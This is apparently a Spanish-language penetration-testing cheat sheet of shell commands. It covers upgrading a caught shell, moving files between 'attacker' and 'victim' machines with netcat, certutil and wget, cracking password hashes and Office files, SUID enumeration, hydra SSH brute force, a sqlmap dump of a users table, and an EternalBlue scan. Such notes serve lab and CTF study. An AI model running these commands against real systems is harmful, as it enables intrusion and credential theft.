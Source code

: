  ### Tratamiento de la TTY
#tecnicas
```python
	script /dev/null -c bash # Lanza pseudoconsola
	
	[ctrl+z] # Suspende la shell actual
	
	stty raw -echo; fg # Recupera la shell suspendida
	
	reset xterm # Reinicia la configuración de la terminal xterm # Especifica el tipo de terminal
	
	export TERM=xterm # Asigna xterm a la variable TERM
	
	export SHELL=bash # Asigna bash a la variable SHELL
	
	stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>
	
	Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a
 ```
 
### TTY Shell con Python

```python
	python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Copiar al clipboard

```python
	cat archivo.txt | xclip -sel clip
```
### Descompresión

```python
#.tar
	
	tar -xf archive.tar.gz
	
#.gz
	
	gzip -d file.gz
	
#.zip
	
	unzip file.zip
```
### Comparación de archivos

```python
	diff -c scan-a.txt scan-b.txt
	
	comm scan-a.txt scan-b.txt
```
### Transferencia de archivos

```python 
#HTTP
	
#Servidor
	
	python3 -m http.server
	
	python -m SimpleHTTPServer

#Cliente
	
	certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt
	
	wget http://<SERVER_IP>/file.txt
```
### FTP
```python
#Servidor
	
	python3 -m pyftpdlib
	
#Cliente
	
	ftp <SERVER_IP>
```
### Netcat
```python

#Servidor

	nc 10.10.14.2 4242 < file

#Cliente

	nc -lvnp 4242 > file
----------------------------------------------------------------------------------------------------------------------------------------------------------
	# maquina atacante
	nc -lvnp "Port" > "archivo"
----------------------------------------------------------------------------------------------------------------------------------------------------------
	# maquina victima
	nc "IP" "Port" < "archivo"

```
### ssh

```python
scp -r ''USER@IP:/ruta/* . * ruta donde queremos copiar(.)''
```
---

### información de procesos

```python
	ps -faux
```
### Sniffing

```python
	tcpdump -i tun0 icmp -n
 
```
### Cracking

```python
	john --wordlist=/usr/share/wordlists/rockyou.txt hash
	
	hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt
```

### Cracking de contraseñas con password y shadow

```python 
	unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>
	
	john --wordlist=<Ruta_Diccionario> <Archivo_hash>
```
### Cracking de documentos encriptados de Office

```python 
	office2john.py <Ruta_Documento> > <Archivo_hash>
	
	john --wordlist=<Ruta_Diccionario> <Archivo_hash>
``` 
### Extraer información de imágenes

```python
	steghide --extract -sf archivo.png/jpg
```
### Búsqueda de exploits

```python
	searchsploit <SOFTWARE>
	
	searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit
	
	searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```
### Buscador de archivos

```python
	find / -iname nombre_archivo
```

### Permisos SUID

```python
	find / -perm -4000 -ls 2>/dev/null
```
### Fuerza bruta con hydra para ssh

```python
	hydra 127.0.0.1 ssh -s 22 -L users -P worstpasswords.txt -f -vV 
```

### Cambio de usuario sobre archivos 

```python
	sudo chown root:root nombre_del_archivo
```

### sqlmap

```python
	sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users -C usarname,passwoed --dumb
```

### numero de caracteres

```python
echo -n "caracteres" | wc -c
```

### Capabilitis 

```python
	getcap -r / 2>/dev/null
```

### Standard PAHT

```python
	export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

### Integridad del hash de un binario compartido
```python
	md5sum Binario
```

### Listar conexiones de red
```python
lsof -i # lsof -i:port
```

### Eternal blue
```python
nmap -p445 --script smb-vuln-ms17-010 IP
```
